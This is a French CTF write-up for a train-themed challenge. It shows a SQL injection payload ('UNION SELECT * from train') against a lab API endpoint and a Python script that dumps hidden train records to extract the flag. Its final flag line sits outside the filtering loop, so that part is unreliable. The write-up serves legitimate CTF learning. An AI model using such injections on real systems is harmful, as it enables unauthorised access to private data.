



# GARE SNCTF - Writeup


**LORE :** Ah, tu as trouvé toutes les informations sur le train ? Maintenant, il te reste juste à mettre tout ça en lien et à trouver le bon train sur leur site. Et bientôt, tu seras riche avec tout cet OR.

Format flag: SNCTF{ }





On recharchant tout les info qu'on a sur le train soit. Et on sait qu'on cherche de l'OR

```
track 2B
wagon C4
date 2024-09-16
hour 2:00
freight OR
```

Après chercher les infos des trains on voit vite qu'on ne trouve aucun train valide

Le train le plus proche

Mais l'heure est pas valide

En trouvant l'api endpoint `/api/train?nam` et une injection SQL
`' UNION SELECT * from train --'` on découvre qu'il y a des trains privés et nom privés



Du coup à partir de la on peut utiliser l'api pour trouver le bon train

```py
import requests

URL = "http://samuel-lab.freeboxos.fr:11000/api/train?name=%27%20UNION%20SELECT%20*%20from%20train%20--%27"

response = requests.get(URL)
data = response.json()

for train in data:
    if train['track'] == '2B' and train['wagon'] == 'C4' and train['date'] == '2024-09-16' and train['hour'] == '2:00' and train['freight'] == 'OR':
        print(train)

print(f"Flag: SNCTF{{{train['uuid']}}}")
```

Il y a bien sur plusieurs moyens de trouver le bon train. Avec une full reques sql.